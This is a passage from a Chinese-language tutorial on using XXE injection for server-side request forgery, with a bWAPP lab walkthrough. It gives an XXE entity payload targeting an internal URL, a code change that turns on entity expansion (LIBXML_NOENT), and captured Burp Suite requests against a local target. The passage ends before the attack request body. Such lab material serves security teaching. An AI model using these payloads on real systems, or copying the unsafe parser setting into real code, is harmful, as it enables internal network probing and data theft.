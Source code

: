 <p>SSRF攻击即为服务端请求伪造，我们可以利用XXE来实现。首先我们先来看一个示例，这样可以帮助我们理解它的攻击方式。</p>
<pre><code class="language-plain">&lt;!DOCTYPE foo [ &lt;!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"&gt; ]&gt;
</code></pre>
<p>这是我们需要注入的XML代码，Web应用在解析它的时候，会向其中的链接发出请求，并且这个请求是由被攻击Web应用的服务器所发送的，这就是SSRF攻击。</p>
<p>它到底有什么作用呢？<strong>我们可以利用它来判断Web应用服务器内网地址的开启情况</strong>，只需要将链接改为服务器的内网地址，然后根据响应的内容就可以判断内网地址是否开放，这会对内网的安全产生威胁。</p>
<p>在了解完XXE的攻击方式后，让我们进入到实战部分来切身体会下XXE攻击的危害吧。</p>
<h2 id="实战演练">实战演练</h2>
<p>在实战过程中，我们选用靶场bwapp做测试，需要注意的是，我们要将bwapp靶场中的xxe-2.php文件中的内容作修改，将$xml的值改为如下：</p>
<pre><code class="language-php">$xml = simplexml_load_string($body,'SimpleXMLElement',LIBXML_NOENT);
</code></pre>
<p>然后，打开靶场我们可以看到，页面中有一个按钮 <code>Any bugs?</code>，我们点击不会有反应，这时候可以打开Burpsuite做测试，通过捕获我们获取到点击按钮会发送请求：</p>
<pre><code class="language-plain">POST /xxe-2.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 59
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
sec-ch-ua-platform: "macOS"
Content-type: text/xml; charset=UTF-8
Accept: */*
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/xxe-1.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; PHPSESSID=847jvmklugetdus5u1on5b92v6
Connection: close

&lt;reset&gt;&lt;login&gt;bee&lt;/login&gt;&lt;secret&gt;Any bugs?&lt;/secret&gt;&lt;/reset&gt;
</code></pre>
<p>经过观察，我们看到Content-type的值为text/xml，所以我们可以分析出下面的数据为XML数据，于是可以尝试进行XXE攻击。</p>
<pre><code class="language-plain">POST /xxe-2.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 178
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
sec-ch-ua-platform: "macOS"
Content-type: text/xml; charset=UTF-8
Accept: */*
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/xxe-1.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; PHPSESSID=847jvmklugetdus5u1on5b92v6
Connection: close
